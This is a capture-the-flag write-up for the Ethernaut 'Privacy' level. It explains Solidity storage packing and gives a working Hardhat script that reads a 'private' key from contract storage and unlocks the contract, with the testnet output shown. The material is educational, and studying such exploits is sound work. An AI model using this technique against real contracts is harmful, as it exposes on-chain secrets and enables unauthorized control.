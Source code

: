 ```yaml
---
title: Ethernaut \#12 Privacy
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Privacy challenge writeup
---
```


## Privacy

### Challenge

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

* Understanding how storage works
* Understanding how parameter parsing works
* Understanding how casting works

Tips:

* Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Background

This challegne is very similar to the `Valut` challenge. Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it. The only extra dificulty is to find the slot in use which will depend on the data types and how the final casting actually works. 

We should keep in mind that solidity will place things in the order they appear. If multiple things fit in a single slot then they will be merged together. This is because storage is very costly on the blockchain so its more efficient to spend some more type unpacking and repacking that using more storage.

### Attack

Somehow access the private `data[2]` array from the public blockchain and use it to call the `unlock` function.

* Determin at what slot offset the `data` array is placed
* Access the private `data[2]` value from the blockchain
* Cast the value to `bytes16` to obtain the `key`
* Submit the `key` using to `unlock` function to unlock the vault

#### privacy-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    privacyAddress = "0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357";
    contract = await ethers.getContractAt("Privacy", privacyAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private key value from storage
    paddedSlot = ethers.utils.hexZeroPad(5, 32);
    data_2 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    key = ethers.utils.hexDataSlice(data_2, 0, 16)
    console.log(key)

    // submit key
    tx = await contract.connect(account).unlock(key)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/privacy-solve.js --network rinkeby
Level address: 0x7A3Bf7ea0d04150EA922e60eBB31ADD5A5bda357
Vault locked : true
0x234731fcb29d9babc1557784fc558a0b
Vault locked : false
```

### Success Message

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
